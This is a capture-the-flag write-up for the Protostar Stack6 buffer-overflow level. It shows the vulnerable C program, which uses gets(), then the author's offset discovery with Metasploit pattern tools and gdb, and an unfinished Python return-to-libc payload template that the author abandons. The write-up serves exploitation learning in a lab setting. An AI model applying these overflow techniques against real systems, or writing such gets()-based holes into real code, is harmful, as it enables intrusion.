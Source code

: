 # Stack 6

## About

Stack6 looks at what happens when you have restrictions on the return address.
This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
It is strongly suggested you experiment with multiple ways of getting your code to execute here.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
    unsigned int ret;
	
	  printf("input path please: "); fflush(stdout);
	  
	    gets(buffer);
		
		  ret = __builtin_return_address(0);
		  
		    if((ret & 0xbf000000) == 0xbf000000) {
			      printf("bzzzt (%p)\n", ret);
				        _exit(1);
						  }
						  
						    printf("got path %s\n", buffer);
							}
							
							int main(int argc, char **argv)
							{
							  getpath();
							  
							  
							  
							  }
							  
```

## Solution

ok so this level i can’t execute any shellcode put on the stack. this means the return address cant be on the stack, so we can still control execution flow of the program by overflowing a buffer and `eip`.
reading up on this looks like i'll have to do a `return-to-libc` attack, so rather than the return address pointin to the stack, it will point to the `libc` libary.

first i need to find the offset using the same method as before.

``` bash
[root:/opt/Data/stack6]# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100 > pattern
[root:/opt/Data/stack6]# gdb ./stack6

pwndbg> r <pattern
```

```
Program received signal SIGSEGV (fault address 0x37634136)

[root:/opt/Data/stack6]# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37634136
[*] Exact match at offset 80
```

ok great the offset is `80` so our buffer should looks something like this 

` junk - system() - exit() - arg1 - arg2` 

lets build the following template to fill in those values 

``` python
#!/usr/bin/env python

offset = 80
shell = '/bin/sh;#'
junk = 'A' * (offset - len(shell))

systemaddr =
systemarg = 

exitaddr =
exitarg = '\xff\xff\xff\xff'

payload = shell + junk + systemaddr + exitaddr + systemarg

print(payload)
```

so the exitarg option is optional, so for now i'll see if i can not use it in the payload

lets start filling out some of these values 

``` bash
pwndbg> break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
pwndbg> print system
$1 = {<text variable, no debug info>} 0xf7e4bb30 <__libc_system>
pwndbg> print exit
$2 = {<text variable, no debug info>} 0xf7e3f7e0 <__GI_exit>
```

ok finding the systemarg address was really hard, and then i noticed this 

``` bash
[root:/opt/Data/stack6]# strings -a -t x /lib/i386-linux-gnu/ld-2.24.so | grep "/bin/sh"

```
that returned nothing, so i'd never be able to get a shell from `libc`, i'm 99% sure this is because i'm not on the protostar ISO and on a 64bit VM. So because i understand this concept i'll move on to the next level
